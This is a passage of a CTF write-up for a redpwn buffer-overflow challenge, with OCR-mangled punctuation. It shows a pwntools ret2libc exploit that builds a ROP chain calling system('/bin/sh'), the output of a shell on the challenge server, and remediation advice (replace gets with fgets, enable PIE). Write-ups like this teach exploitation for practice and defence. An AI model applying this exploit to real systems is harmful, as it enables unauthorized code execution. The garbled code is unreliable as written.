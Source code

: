   Get system and bin sh address ready  
system   libc symbols  system    
bin sh   next libc search b  bin sh     
  
log success f libc base found at   hex libc address      
log info f system at   hex system      
log info f  bin sh at   hex bin sh      
  
  Creating the final payload  
pop rdi   0x00000000004012a3  
payload   b A  40   p64 pop rdi    p64 bin sh    p64 system   
  
p sendline payload   
p interactive  
   endhighlight   

Running the exploit results in the successful return of a shell 

   highlight bash   
   0xd4y Writeup     business ctf redpwn pwn ret2the unknown   
      python3 poc py  
    Opening connection to mc ax on port 31568  Done  
281024  
    libc base found at  0x7ff17ea82000  
    system at  0x7ff17eac69c0  
     bin sh at  0x7ff17ec03519  
    Switching to interactive modethat board meeting was a  smashing  success  rob loved the challenge in fact  he loved it so much he sponsored me a business trip to this place called  libc    where is this place  can you help me get there safely   
phew  good to know  shoot  i forgot   
rob said i d need this to get there  7ff17eada560  
good luck   
  id  
uid 1000 gid 1000 groups 1000  
  ls  
flag txt  
run  
  cat flag txt  
flag ro REDACTED sing 
   endhighlight   

Conclusion
          

     

The insecure gets   function should never be used due to its lack of boundary checks on user input  This can result in the overwriting of memory that can lead to arbitrary code execution  ASLR and enabling the NX bit are not adequate in the prevention of binary exploitation  however they do help mitigate vulnerabilities   The following remediations should be strongly considered to prevent the attack outlined in this report 

    Replace the gets   function with fgets  

    The latter performs boundary checks on user input which mitigates buffer overflow attacks

    Implement PIE
